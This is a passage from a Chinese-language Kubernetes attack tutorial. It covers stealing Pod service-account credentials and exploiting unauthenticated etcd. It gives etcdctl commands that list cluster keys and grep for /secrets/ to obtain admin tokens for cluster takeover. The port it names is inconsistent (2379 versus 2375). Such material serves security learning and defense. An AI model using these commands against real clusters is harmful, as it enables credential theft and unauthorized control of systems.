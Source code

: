 如果能在 Pod 内执行命令，那么就可以获取 Pod 里 service account 的凭据，使用 Pod 上的 service account 凭据可以用来模拟 Pod 上的服务账户进行操作，具体利用方法见下面的小节。

[![](assets/1698894613-54629b231f87e5d75e647277a67da5df.png)](https://storage.tttang.com/media/attachment/2022/03/12/05f8decd-181c-4f2f-823b-68146f484541.png)

### [etcd 未授权](#toc_etcd)

etcd 是 k8s 集群中的数据库组件，默认监听在 2379 端口，如果 2379 存在未授权，那么就可以通过 etcd 查询集群内管理员的 token，然后用这个 token 访问 api server 接管集群。

etcd 有 v2 和 v3 两个版本，k8s 用的是 v3 版本，所以我们在访问 etcd 的时候需要用命令 ETCDCTL\_API=3 来指定 etcd 版本。

我们想要利用 etcd 未授权，需要使用一个工具叫做 etcdctl，它是用来管理 etcd 数据库的，我们可以在 github 上下载它

[https://github.com/etcd-io/etcd/releases/](https://github.com/etcd-io/etcd/releases/)

"在启动 etcd 时，如果没有指定 --client-cert-auth 参数打开证书校验，并且没有通过 iptables / 防火墙等实施访问控制，etcd 的接口和数据就会直接暴露给外部黑客"——爱奇艺安全应急响应中心

复现环境我也懒得搭了，我们就在授权情况下来复现这个洞吧！（

首先，如果我们在没有证书文件的前提下直接访问 2375 端口，是调用不了 etcd 应用的，会提示 X509 证书错误。

```bash
ETCDCTL_API=3 ./etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only
```

我们需要将以下文件加入环境变量才能访问（如果有未授权，那么不用带证书都能访问）

```bash
  export ETCDCTL_CERT=/etc/kubernetes/pki/etcd/peer.crt
  export ETCDCTL_CACERT=/etc/kubernetes/pki/etcd/ca.crt
  export ETCDCTL_KEY=/etc/kubernetes/pki/etcd/peer.key
```

#### [查询管理员 token](#toc_token)

图片引用自爱奇艺安全应急响应中心

我们可以直接在 etcd 里查询管理员的 token，然后使用该 token 配合 kubectl 指令接管集群。

```bash
etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only | grep /secrets/
```

[![](assets/1698894613-52a10d1b2dc83ac2335330997454eb1e.png)](https://storage.tttang.com/media/attachment/2022/03/12/d876a643-6a23-4c59-b310-00f4fdd19226.png)
